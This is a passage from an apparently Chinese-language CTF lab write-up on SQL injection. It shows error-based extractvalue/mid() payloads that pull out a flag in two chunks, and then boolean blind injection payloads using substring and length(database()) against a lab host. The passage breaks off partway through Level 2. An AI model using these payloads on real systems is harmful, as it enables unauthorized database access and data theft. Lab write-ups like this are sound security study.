    查阅资料后发现报错注入显示出现问题，extractvalue 和 updatexml 两个函数的显示有限，所以我们需要想个法子来分开来看  
    我们这里选择使用mid()这个函数，用法如下  
`id=1 and extractvalue(1,concat(0x7e,mid((select real_flag from level1.fflllag),1,30),0x7e))`
`id=1 and extractvalue(1,concat(0x7e,mid((select real_flag from levle1.fflllag),31,51)0x7e)) ` 
    mid((我想要得到的内容)，1，30)；第一个数字1是内容的起始字符，第一个字符，30是结束字符第三十个字符，这样就能显示从第一个到第三十个字符了，  
    ![alt text](image-5.png)  flag{d4759bca-7da5-fee0-1aa7-e     
    第三十一个字符到结尾同理，flag没有第五十一个字符，所以直接结束在最后一个了  
    ![alt text](image-6.png)  1bff30a23c0}  
    然后把这~ ~这中间的内容拼到一起就能得到flag了：flag{d4759bca-7da5-fee0-1aa7-e1bff30a23c0} 

# LEVEL 2
__盲人注入，直接破防__

    布尔盲注  
`http://10.140.32.159:21002/level2/?id=1' and substring((select database()),1,6)='level2' --+`  
得到库名 level2    
![alt text](cca48f8dceb2b7f4993ea64db915a3e1.png)    
或者    
先得到database的长度，输入：  
`?id=1' AND length(database()) >= 6 --+`